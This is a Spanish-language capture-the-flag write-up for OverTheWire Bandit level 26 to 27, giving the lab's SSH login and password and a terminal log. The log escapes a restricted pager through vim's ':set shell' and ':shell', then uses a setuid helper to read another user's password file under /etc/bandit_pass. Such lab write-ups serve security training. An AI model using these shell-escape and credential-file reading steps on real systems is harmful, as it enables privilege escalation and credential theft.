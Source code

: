 # Bandit Level 26 → Level 27

## Objetivo
Good job getting a shell! Now hurry and grab the password for bandit27!

## Datos de Acceso
ssh bandit26@bandit.labs.overthewire.org -p 2220
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1

## Solucion
```shell
_ _ _ _ ___ __ | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ --More--(66%) v _ _ _ _ ___ __ | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ | |_) | (_| | | | | (_| | | |_ / /| (_) | "~/text.txt" [readonly] 6L, 258B :set shell=/bin/bash :shell [No write since last change] 
bandit26@bandit:~$ 
bandit26@bandit:~$ ls bandit27-do text.txt 
bandit26@bandit:~$ ./bandit27-do id uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26) 
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27 YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS 
bandit26@bandit:~$ bandit26@bandit:~$ exit :qa! q
```
## Notas Adicionales

## Referencias